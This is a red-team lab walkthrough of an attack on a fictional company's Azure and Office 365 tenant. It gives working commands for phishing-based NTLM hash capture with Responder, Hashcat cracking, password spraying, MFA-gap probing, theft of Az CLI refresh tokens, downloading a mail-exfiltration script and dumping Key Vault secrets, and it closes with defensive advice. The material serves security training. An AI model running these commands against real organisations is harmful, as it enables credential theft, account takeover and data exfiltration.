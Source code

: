 *Get hands on with phishing, token abuse and exfiltrating data from Office 365. It provides a good overview of real-world techniques that threat actors use to compromise and move laterally and vertically in Azure, and how we can protect against these attacks.*

## Learning outcomes  

- Leak Net-NTLMv2 hashes to gain user credentials
- Identify valid users and credentials using Oh365UserFinder
- Verify MFA enforcement status using MFASweep
- Perform token abuse using TokenTacticsV2
- Exfiltrate data from Azure using native tools and scripts
- Learn how this scenario can be detected and prevented

## Notes

This lab simulates a real-world red team engagement where the attack chain exploits identity and access management (IAM) vulnerabilities and social engineering to breach Mega Big Tech's environment. Here's the attack story structured for clarity:

---

### **1. Initial Reconnaissance**

- **Goal:** Identify valid users to launch phishing or password-spraying attacks.
- **Technique:**
    - Used `Oh365UserFinder` to enumerate valid email formats.
    -  Saved a list of common email formats to a text file and used the text file in the command `python3 oh365userfinder.py -r emails.txt`, confirming `firstname.lastname@megabigtech.com` as the format.
    - This highlights a common practice threat actors exploit: standardized corporate email formats.

---

### **2. Phishing Campaign**

- **Goal:** Leak Net-NTLMv2 hashes by coercing authentication to a malicious SMB server.
- **Technique:**
    - Set up a rogue SMB server with `Responder`. `python3 Responder.py -I eth0`
    - Crafted a phishing email convincing the target to authenticate to the attacker's server.
    - Successfully captured Net-NTLMv2 hashes and cracked them using `Hashcat`. `hashcat -m 5600 netntlm.hash /root/rockyou.txt`. Hashcat mode `5600` corresponds to the [Net-NTLMv2 hash type](https://hashcat.net/wiki/doku.php?id=example_hashes). The `rockyou.txt` wordlist is often used as a starting point for offline brute force attacks and contains over 14 million passwords
    - You can read more on [NTLM](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm)

---

### **3. Valid Credential Verification**

- **Goal:** Check if the compromised credentials work across corporate systems.
- **Technique:**
    - Tested the cracked credentials (`theD@RKni9ht`) against Microsoft 365 accounts. `python3 oh365userfinder.py -p theD@RKni9ht --pwspray --elist mbtusers.txt`. The `-e` parameter is just for identifying users.
    - Discovered credential reuse across systems, gaining access to the victim's corporate account.

---

### **4. Bypassing MFA**

- **Goal:** Identify services exempt from MFA enforcement.
- **Technique:**
    - Used `MFASweep` to probe MFA gaps, discovering that APIs like Microsoft Graph and Microsoft Service Management allowed single-factor authentication. `Invoke-MFASweep -Username sam.olsson@megabigtech.com -Password theD@RKni9ht -Recon`
    - Exploited these gaps to obtain a session for the Microsoft Graph API.

---

### **5. Token Abuse**

- **Goal:** Move laterally and escalate privileges using tokens. 
- **Technique:**
    - Signed into the portal as Sam and seen a logic app that had hard creds from a different user.
    - We want to see the password protection settings before doing a brute force `Install-Module Microsoft.Graph.Beta.Identity.DirectoryManagement` & `Get-MgBetaDirectorySetting |where {$_.templateId -eq "5cf42378-d67d-4f36-ba46-e8b86229381d"} |convertto-json -Depth 50`
    - Extracted refresh tokens using the Azure CLI and used them to generate new access tokens. `az account get-access-token`
    - On Mac and Linux the Az CLI access and refresh tokens are stored in plaintext in the file `~/.azure/msal_token_cache.json` . On Windows the tokens are stored in `%userprofile%\.azure\msal_token_cache.bin` , and encrypted using DPAPI. Although we could look to decrypt the tokens, we can also install an older version of the Az CLI on a test Windows VM, as these older versions store both access and refresh tokens unprotected in the file `%userprofile%\.azure\accessTokens.json`.
    - Exploited OAuth token mismanagement to pivot across services without triggering MFA.
    - Leveraged `TokenTacticsV2` to access Microsoft Graph APIs, extracting sensitive emails and credentials. `Invoke-RefreshToMSGraphToken -domain megabigtech.com -refreshToken "<token>"` token is from the json file.
    - The new access token for Microsoft Graph can be accessed with `$MSGraphToken.access_token`.

---

### **6. Privilege Escalation**

- **Goal:** Gain administrative access to the Azure environment.
- **Technique:**
    - Discovered an administrator email account with weak credentials in emails exfiltrated from Microsoft Graph.
	    - Use this Python script `wget https://raw.githubusercontent.com/rootsecdev/Azure-Red-Team/master/Tokens/exfil_exchange_mail.py`
    - Verified admin account access and discovered it was not protected by MFA.
    - Used the Azure PowerShell module to enumerate and access Azure resources, including the Azure Key Vault.
	    - `$VaultName = "MBT-Admins"`
	    - `Get-AzKeyVaultSecret -VaultName $VaultName | ForEach-Object { Get-AzKeyVaultSecret -VaultName $VaultName -Name $_.Name -asplaintext }`
    - Extracted secrets from the vault, including the global admin password, effectively owning the environment.


---

### **Defensive Takeaways**

1. **Strengthen MFA Enforcement:**
    - Ensure MFA is enforced for **all endpoints and services**, including APIs like Microsoft Graph and CLI access.
2. **Monitor Authentication Logs:**
    - Detect reconnaissance tools like `Oh365UserFinder` and brute-force attacks using logs from Entra ID.
    - KQL query `SigninLogs | where ResultType != 0 | summarize FailedLoginCount = count() by ResourceDisplayName, UserPrincipalName | sort by FailedLoginCount desc nulls last`
1. **Educate Users:**
    - Train employees to recognize phishing attempts.
2. **Limit Token Lifetimes:**
    - Implement stricter token expiration policies to reduce the window for abuse.
3. **Secure Azure Key Vaults:**
    - Use Key Vault firewall rules and RBAC to prevent unauthorized access.

## Links

[Conditional Access: Conditions](https://learn.microsoft.com/en-us/entra/identity/conditional-access/concept-conditional-access-conditions#device-platforms)

[Token tactics: How to prevent, detect, and respond to cloud token theft](https://www.microsoft.com/en-us/security/blog/2022/11/16/token-tactics-how-to-prevent-detect-and-respond-to-cloud-token-theft/)

[Hacking Your Cloud: Tokens Edition 2.0](https://trustedsec.com/blog/hacking-your-cloud-tokens-edition-2-0)